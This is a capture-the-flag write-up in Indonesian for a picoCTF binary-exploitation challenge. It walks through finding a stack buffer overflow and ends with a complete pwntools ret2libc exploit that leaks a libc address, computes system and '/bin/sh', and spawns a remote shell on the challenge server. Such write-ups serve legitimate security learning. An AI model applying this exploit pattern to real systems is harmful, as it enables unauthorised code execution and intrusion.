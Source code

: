 # Write Up Here a Libc

Step pertama yang saya coba adalah dengan menjalankan program dengan connect ke remote server yang disediakan. 

<div align="center">
  <img src="https://github.com/user-attachments/assets/14bdca32-f80e-4890-bba7-7003b082a89b">
</div>
</br>

Dari foto di atas, saya mengetahui bahwa program ini merubah input text yang dimasukkan oleh user menjadi uppercase di huruf yang ganjil dan lowercase di huruf yang genap.

Lalu, saya mencoba untuk membuka program dengan Ghidra. Pada fungsi main, saya mengetahui bahwa dia memanggil fungsi do_stuff() yang disimpan dalam do while.

<div align="center">
  <img src="https://github.com/user-attachments/assets/95b39820-4de7-47ac-b831-de0a515656be">
</div>
</br>

Berikut adalah fungsi do_stuff():

<div align="center">
  <img src="https://github.com/user-attachments/assets/b38a0f05-93f1-4229-a819-50d661c9cafd">
</div>
</br>

Berdasarkan decompiled code fungsi do_stuff(), ada kemungkinan buffer overflow pada fungsi scanf pertama yang ini adalah input dari user dengan buffer 112 dari local_88. Lalu, pada for loop, huruf yang di convert_case hanya sampai < 100.

Saat saya mencoba input string random untuk mencoba buffer overflow, terjadi segmentation fault.

<div align="center">
  <img src="Screenshot 2024-11-28 021056](https://github.com/user-attachments/assets/c01e2b64-54ad-4c78-b61f-fb9b7ab44a79">
</div>
</br>

Selanjutnya saya mencoba untuk menjalankan di gdb dengan cara yang sama dengan foto di atas. Awalnya saya bingung karena sudah lebih banyak dari buffer (112) tapi nilai di rip belum berubah.

<div align="center">
  <img src="https://github.com/user-attachments/assets/e50750d4-2653-4911-b511-e9df98805054">
</div>
</br>

Karena saya skill issue dan bingung kenapa saat saya menggunakan gdb gef tidak berubah juga rip nya (mungkin payload nya salah atau kurang panjang) dan tidak menemukan offset, saya mencari write up di Youtube dan meminta bantuan ChatGPT. Berdasarkan GPT dan video di Youtube, saya akhirnya menggunakan pwntools cyclic untuk menemukan offset dari buffer overflow yang ingin dilakukan. Berikut code nya:

```python
from pwn import *

binary = './vuln'
elf = ELF(binary)
context.binary = binary

p = process(binary)

payload = cyclic(200)
p.sendlineafter(b'WeLcOmE To mY EcHo sErVeR!', payload)

p.wait()
core = p.corefile

offset = cyclic_find(core.read(core.rsp, 4))
log.info(f"Offset found: {offset}")
```

Saya menjalankan scriptnya di kali linux karena di windows ternyata error dan harus di linux. Ini offsetnya:

<div align="center">
  <img src="https://github.com/user-attachments/assets/03b0e75b-3745-46fc-b81d-87cd27fa54e3">
</div>
</br>

Note: Saya ingin jujur ko, di step yang akan dijelaskan selanjutnya, saya mengikuti bantuan ChatGPT terutama dalam pembuatan script.

Selanjutnya, setelah mengetahui offset, saya mencari address dari fungsi-fungsi yang ada di libc. Tujuan akhir alamat yang ingin diambil adalah alamat fungsi system. Selain fungsi, string /bin/sh juga saya cari untuk menjalankan shell di remote server.

Saya dengan bantuan ChatGPT membuat script untuk eksploitasi.

```python
from pwn import *

# Konfigurasi Binary dan Libc
binary = './vuln_patched'  # Nama binary
libc_path = './libc.so.6'  # Nama file libc
elf = ELF(binary)
libc = ELF(libc_path)

# Alamat penting dari binary
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']

# Offset dari buffer overflow
offset = 136

# Remote server
host = 'mercury.picoctf.net'
port = 49464

# Fungsi untuk leak alamat libc
def leak_libc_address(proc, func_got):
    log.info(f"Leaking {func_got} address...")
    rop = ROP(elf)
    rop.call(puts_plt, [func_got])  # Cetak alamat fungsi di GOT
    rop.call(main_addr)  # Kembali ke fungsi main untuk eksploitasi ulang
    
    payload = flat({offset: rop.chain()})
    proc.sendlineafter("WeLcOmE To mY EcHo sErVeR!", payload)
    leaked_address = u64(proc.recvline().strip().ljust(8, b'\x00'))
    log.success(f"Leaked {func_got} address: {hex(leaked_address)}")
    return leaked_address

# Fungsi eksploitasi untuk mendapatkan shell
def exploit(proc):
    # Leak libc puts address
    libc_puts = leak_libc_address(proc, puts_got)

    # Hitung base address libc
    libc_base = libc_puts - libc.symbols['puts']
    log.success(f"Libc base address: {hex(libc_base)}")

    # Hitung alamat "/bin/sh" dan system
    system_addr = libc_base + libc.symbols['system']
    bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

    log.info(f"System address: {hex(system_addr)}")
    log.info(f"/bin/sh address: {hex(bin_sh_addr)}")

    # ROP chain untuk mendapatkan shell
    rop = ROP(elf)
    rop.call(system_addr, [bin_sh_addr])

    payload = flat({offset: rop.chain()})
    proc.sendlineafter("WeLcOmE To mY EcHo sErVeR!", payload)

    # Berikan akses interaktif
    proc.interactive()

# Main program
if __name__ == "__main__":
    context.binary = elf
    p = remote(host, port)
    exploit(p)
```








